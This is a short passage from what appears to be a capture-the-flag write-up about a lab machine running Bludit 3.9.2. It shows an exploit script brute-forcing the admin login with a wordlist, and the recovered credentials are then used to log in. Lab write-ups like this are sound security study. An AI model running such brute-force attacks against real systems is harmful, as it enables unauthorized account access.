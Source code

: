 ```bash
$ ruby 48746.rb -r http://10.10.10.191/admin/login.php -u fergus -w wordlist.txt
[*] Trying password: the
[*] Trying password: and
[*] Trying password: for
[*] Trying password: Load
[*] Trying password: Plugins
...
[*] Trying password: character
[*] Trying password: RolandDeschain

[+] Password found: RolandDeschain
```

I use the credentials `fergus:RolandDeschain` on the admin portal and can log in.

![](img/2020-12-10-21-54-30.png)

Judging from the source, it looks like `Bludit 3.9.2`.

![](img/2020-12-10-22-08-07.png)
